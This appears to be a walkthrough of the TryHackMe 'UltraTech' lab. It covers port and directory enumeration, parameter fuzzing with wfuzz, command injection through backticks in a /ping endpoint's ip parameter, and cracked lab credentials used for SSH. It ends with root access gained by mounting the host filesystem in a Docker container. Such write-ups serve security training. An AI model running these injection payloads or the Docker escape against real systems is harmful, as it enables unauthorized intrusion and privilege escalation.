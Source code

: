 # TryHackMe UltraTech walkthrough(Medium level).


---------------------ULTRATECH(TryHackMe)----------------------

finding open ports, **21,22,8081**
A webserver running on 8081 which is node.js

Directory fuzzings:- Using gobuster find 2 directories which is /auth and /ping

when i open /ping(Error is showing related to api and cors)  :>[Don't waste your time in api and cors]

try to enumerate more about /ping directory and search parameter in given URL using wfuzz tool.

wfuzz -u http://ip/ping?FUZZ=test -w /usr/share/wordlists/dirbuster/directory-2.3-medium.txt --hc 15 -c

I got a ip parameter.

Now try to find Command Injection on this vulnerability

curl 'http://ip/ping?ip=127.0.0.1&`whoami`' :- but only showing loopback address result. {Using ' quote because curl is not understand our full url}

curl 'http://ip/ping?ip=`ls`' :- Boom; I got a two username and their password which is hash form.

1)r00tf357a0c52799563c7c7b76c1e7543a32 => **r00t:n100906**
2)admin0d0ea5111e3c1def594c1684e3b9be84 => **admin:mrsheafy**

#Now login through ssh using r00t user and their password, I got the shell

When i using /etc/passwd i show a another user which ip1. [but ip1 is useless 😂]

#Trying to find the binary but not giving any results from find command.

#When i using mistakely id command i show a mysterious things which Docker

#Now enumerate docker:

$which docker
/usr/bin/docker

$ls -la /usr/bin/docker
-rwxr-xr-x 1 root root 68631952 Feb 13  2019 /usr/bin/docker

$docker run -v /:/mnt --rm -it bash chroot /mnt sh

:(:(Boom:):)

I found root shell.

Find the last flag and finally go to bed :)
